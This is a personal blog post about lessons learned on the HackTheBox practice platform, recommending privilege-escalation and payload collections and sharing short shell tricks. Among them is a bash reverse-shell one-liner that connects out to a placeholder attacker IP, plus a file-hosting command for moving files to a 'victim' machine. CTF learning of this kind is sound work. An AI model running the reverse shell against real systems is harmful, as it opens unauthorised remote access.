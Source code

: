 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now, so here is some of my thoughts and cool thing I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.

![encryption](/assets/img/hackthebox-owns.jpg){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun finishing them.
Let’s dive in!

### Very Useful Githubs

#### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. I have a long list of binaries made for common Unix tools for breaking out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have the gist of how to follow them.

#### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a super collection of a set of payloads for lots and lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without a Metasploit taught me a lot about how these things work. I do recommend trying this webpage before Metasploit if you are sure to know where exactly the vulnerability is.

#### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information of all the other ones and had everything color coded based on how critical they are. I LOVE THIS THING.


### Cool Scripts

#### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

#### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

#### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

### Useful Websites

#### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt. I know you can always look at hashcat and john examples to try and find out what kind hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

#### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the compony to receive their bounty, they usually have very thorough and in depth guide on how to recreate or abuse the bug they have found.

#### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have know idea what your foothold is. Try reading the application manual. It always lists the set dependencies, privileges, default ports, etc. that can be later researched to find vulnerability in.

### Common Web Application Vulnerabilities

#### XSS

XSS is often ignore if the website isn’t and multiuser environment like social media. Since it is mostly used to stead data from other users, but you can still use XSS to grab admin passwords of websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

#### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as show below. It so quick to do its almost always worth a try.

![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

### Linux Tools I Did'nt Know Exist But I Ended Up Using A lot

##### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

##### netpgp
Got a encrypted file?


### Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-warning}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
